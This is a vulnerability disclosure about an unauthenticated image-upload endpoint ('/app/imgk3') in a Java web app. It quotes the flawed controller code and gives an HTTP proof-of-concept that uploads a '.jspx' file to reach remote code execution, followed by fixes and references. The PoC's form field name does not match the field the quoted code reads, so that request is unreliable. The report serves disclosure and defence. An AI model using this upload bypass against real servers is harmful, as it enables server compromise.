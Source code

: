 ![image-20250208160614809](./assets/image-20250208160614809.png)

![image-20250208160539277](./assets/image-20250208160539277.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
The application allows unauthenticated users to upload files via the `/imgk3` endpoint. The uploaded files are not properly validated, which can lead to remote code execution (RCE) if a malicious file is uploaded.

### Affected Endpoint:
`/app/imgk3`

### Vulnerability Type:
Unauthenticated RCE

### Vulnerable Code:
```java
@RequestMapping({"/imgk3"})
@ResponseBody
public String imgk3(HttpServletRequest request, HttpServletResponse response) {
    try {
        String referer = request.getHeader("referer");
        Pattern p = Pattern.compile("([a-z]*:(//[^/?#]+)?)?", 2);
        Matcher mathcer = p.matcher(referer);
        if (mathcer.find()) {
            StringBuffer buffer = new StringBuffer();
            String callBackPath = mathcer.group();
            MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
            MultipartFile imgFile = multipartRequest.getFile("imgFile");
            if (imgFile.getName().endsWith(".jsp")) {
                return null;
            }

            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveImage(imgFile, paths);
            json.addProperty("url", import_root + json.get("url").getAsString());
            if (!"0".equals(json.get("error").toString())) {
                buffer.append("<html><head><title>Insert Image</title><meta http-equiv='content-type' content='text/html; charset=utf-8'/></head><body>");
                buffer.append("<script type='text/javascript'>");
                buffer.append("alert('").append(json.get("message")).append("!')");
                buffer.append("</script>");
                buffer.append("</body></html>");
            } else {
                buffer.append("<html><head>\n<meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\">\n<title>PIC UPLOAD</title>\n<script type=\"text/javascript\">\n    var upload_callback = function(){\n        var iframe_proxy = document.createElement('iframe');\n        iframe_proxy.style.display = 'none';\n        iframe_proxy.src = '" + callBackPath + "/kindeditor/plugins/image/call_back.html#'+encodeURIComponent('" + json + "');\n        document.body.appendChild(iframe_proxy);\n    };\n</script>\n</head>\n<body onload=\"upload_callback();\">\n\n</body></html>");
            }

            return buffer.toString();
        }

        logger.info("imgk3 ok");
    } catch (Exception var12) {
        logger.error("imgk3 error", var12);
    }

    return null;
}
```

### Proof of Concept (PoC):
```http
POST /app/imgk3 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a JSP file with a different extension (e.g., `.jspx`). This file can contain malicious code, which, when executed by the server, can lead to remote code execution. This allows the attacker to execute arbitrary commands on the server, potentially compromising the entire system.

### Recommendation:
1. **File Type Validation**: Implement strict file type validation to ensure only allowed file types are uploaded.
2. **Authentication and Authorization**: Ensure that file upload functionality is restricted to authenticated and authorized users.
3. **File Content Scanning**: Use antivirus or antimalware tools to scan the content of uploaded files for potential threats.
4. **File Storage**: Store uploaded files outside the web root to prevent direct access via the web server.

### Conclusion:
The unauthenticated file upload functionality in the `/imgk3` endpoint poses a significant security risk, allowing attackers to execute arbitrary code on the server. It is crucial to implement proper validation, authentication, and security measures to mitigate this vulnerability.

### References:
- [OWASP File Upload Guidelines](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)


